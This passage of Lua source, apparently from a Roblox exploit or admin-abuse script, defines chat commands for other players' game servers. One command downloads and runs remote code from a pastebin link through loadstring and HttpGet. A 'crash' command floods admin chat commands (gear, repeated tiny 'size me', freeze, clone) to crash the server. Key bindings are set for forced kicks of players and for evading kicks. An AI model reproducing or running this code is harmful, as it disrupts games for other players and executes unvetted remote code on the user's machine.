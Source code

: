 	if string.sub(msg:lower(), 0, 4) == prefix.."fps" then
		loadstring(game:HttpGet("https://pastebin.com/0LJ9htbC"))()
	end
	
	if string.sub(msg:lower(), 0, 6) == prefix.."crash" then
		if string.sub(msg:lower(), 0, 9) ==  prefix.."crashall" then
			logn("We've infact moved this command and its now called lagall :)")
		else
			logn("Just hold the tool your given xd (Expires in 10 seconds.)")
			game.Players:Chat("gear me 00000000000000000094794847")
			allowcrash = true
			Spawn(function()
				wait(10)
				allowcrash = false
				logn("VampireVanquisher Expired.")
			end)
			while true do
				if game.Players.LocalPlayer.Character:FindFirstChild("VampireVanquisher") then
					wait(0.25)
					for i = 1,100 do
						game.Players:Chat("size me 0000000000000000000.3")
					end
					game.Players:Chat("size me .3")
					game.Players:Chat("size me .3")
					game.Players:Chat("size me .3")
					game.Players:Chat("freeze me")
					game.Players:Chat("size me 10")
					game.Players:Chat("size me 10")
					game.Players:Chat("size me 10")
					game.Players:Chat("clone me")
					gotoShortcutHub("Server CRASHED", 1) -- Go to shortcuts main hub for rejoining
					break
				end
				wait(0.05)
				if allowcrash == false then
					break
				end
			end
		end
	end
	
	if string.sub(msg:lower(), 0, 11) == prefix.."bind fkick" then
		logn("fkick is now bound to '"..string.sub(msg:lower(), 13, 13).."'")
		fkick_keybind = string.sub(msg:lower(), 13, 13)
	end
	
	if string.sub(msg:lower(), 0, 14) == prefix.."bind antikick" then
		logn("antikick is now bound to '"..string.sub(msg:lower(), 16, 16).."'")
		antikick_keybind = string.sub(msg:lower(), 16, 16)
	end
	
	if string.sub(msg:lower(), 0, 13) == prefix.."bind respawn" then
		logn("respawn is now bound to '"..string.sub(msg:lower(), 15, 15).."'")
		respawn_keybind = string.sub(msg:lower(), 15, 15)
	end
	